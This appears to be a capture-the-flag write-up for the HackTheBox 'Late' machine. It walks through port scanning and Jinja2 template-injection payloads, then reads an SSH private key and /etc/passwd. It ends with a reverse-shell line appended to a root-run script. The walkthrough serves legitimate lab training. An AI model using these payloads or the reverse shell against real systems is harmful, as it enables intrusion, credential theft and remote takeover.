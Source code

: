 ```yaml
---
title: HTB | Late
author: Zeropio
date: 2022-05-30
categories: [HackTheBox, Machines]
tags: [htb, linux, easy, machines]
permalink: /htb/labs/machines/late
---
```


![HTB Img](/assets/img/hackthebox/card/Late.png)

# Enumeration
After the ping we can guess that is a Linux.
The ports scan give us:
```
# Nmap 7.92 scan initiated Sat May 28 20:31:36 2022 as: nmap -p- -sS --min-rate 5000 -oG ports 10.10.11.156
Host: 10.10.11.156 ()	Status: Up
Host: 10.10.11.156 ()	Ports: 22/open/tcp//ssh///, 80/open/tcp//http///	Ignored State: closed (65533)
```

Then we scan the ports:
```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-28 20:32 CEST
Nmap scan report for 10.10.11.156
Host is up (0.046s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 02:5e:29:0e:a3:af:4e:72:9d:a4:fe:0d:cb:5d:83:07 (RSA)
|   256 41:e1:fe:03:a5:c7:97:c4:d5:16:77:f3:41:0c:e9:fb (ECDSA)
|_  256 28:39:46:98:17:1e:46:1a:1e:a1:ab:3b:9a:57:70:48 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Late - Best online image tools
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We can see a webpage. Searching **http://10.10.11.156/index.php** give us error 404, so the page doesn't use php.
We see a subdomain referer as: **images.late.htb**, so we add it to the `/etc/hosts`{: .filepath}.

&nbsp;
---

# Foothold

We see it works with **flask**. We can search for it and get some [possible explotation](https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee).
Let's try adding the text to an image like this:

![HTB Img](/assets/img/hackthebox/labs/late/ss158.png)

This gives the following text:

![HTB Img](/assets/img/hackthebox/labs/late/ss157.png)

Now that we know is vulnerable we need to search for the param **subprocess.Popen**.
- Do the following search with a new image: `{% raw %}{{ ‘’.__class__.__mro__[1].__subclasses__() }}{% endraw %}`.
- Parse it with the following script: [flaskVulnParam](https://github.com/zeropio/the_helpful_scripts/blob/main/other/flaskVulnParam.py)

```python
with open('results.txt', "r") as f:
        data = str(f.read())

data = data.replace("&lt;", '<')
data = data.replace("&gt;", '>')
data = data.replace("&#39;", "'")

data = data.split(", ")

print(data.index("<class 'subprocess.Popen'>"))
```

Now the have the index of the field: **249**. We can check it searching for: `{% raw %}{{‘’.__class__.__mro__[1].__subclasses__()[249]}}{% endraw %}`.
Now we try to get the **RSA**, cause we know it has OpenSSH:

![HTB Img](/assets/img/hackthebox/labs/late/ss159.png)


This will give us the RSA file. Now we need to get the `/etc/passwd`{: .filepath} as well. Let replace **\n** in both files with the proper spaces.
Now we can connect to the machine. First we need to find a user that has the shell enable and then give permission to the rsa file:
```console
> chmod 400 rsa
> ssh -i rsa svc_acc@10.10.11.15
```

&nbsp;
---

# Privilage Escalation

With `linPEAS.sh`{: .filepath} we found the an editable folder with the script `ssh-alert.sh`{: .filepath} **ssh-alert.sh**, which is executed by the root in crontab and when a 
user login with ssh.
Let's add an reverse shell there:
```
# In our machine
> nc -lvnp 9000

# In the target machine
> $ echo "sh -i >& /dev/tcp/10.10.14.185/9000 0>&1" >> ssh-alert.sh; ssh localhost
```

And the machine is pwned.
